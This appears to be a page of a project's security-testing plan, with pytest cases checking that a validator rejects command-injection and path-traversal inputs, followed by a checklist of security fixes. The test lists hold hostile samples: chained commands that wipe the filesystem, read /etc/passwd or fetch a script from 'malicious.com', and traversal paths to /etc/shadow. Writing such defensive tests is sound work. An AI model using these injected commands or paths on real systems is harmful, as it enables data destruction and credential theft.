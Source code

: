 ## 🧪 Security Testing

### Test Cases to Implement

**1. Input Validation Tests**
```python
def test_command_injection_prevention():
    """Test that command injection is prevented"""
    malicious_inputs = [
        "service; rm -rf /",
        "service | cat /etc/passwd", 
        "service && wget malicious.com/script",
        "service `cat /etc/hosts`"
    ]
    
    for malicious_input in malicious_inputs:
        with pytest.raises(ValueError):
            validate_command_input(malicious_input)
```

**2. Path Traversal Tests**
```python
def test_path_traversal_prevention():
    """Test that path traversal is prevented"""
    malicious_paths = [
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system32",
        "/etc/shadow",
        "~/../../etc/hosts"
    ]
    
    for malicious_path in malicious_paths:
        with pytest.raises(ValueError):
            safe_storage_path("/app/storage", malicious_path)
```

## 📋 Security Checklist

### Pre-Implementation
- [ ] Review current codebase for security vulnerabilities
- [ ] Document all identified security issues
- [ ] Prioritze fixes based on risk assessment

### Implementation
- [ ] Input validation for all user inputs
- [ ] Path traversal protection
- [ ] Command injection prevention
- [ ] Thread safety improvements
- [ ] Credential masking in logs

### Post-Implementation
- [ ] Security testing of all fixes
- [ ] Code review focused on security
- [ ] Update security documentation
- [ ] Train team on security best practices
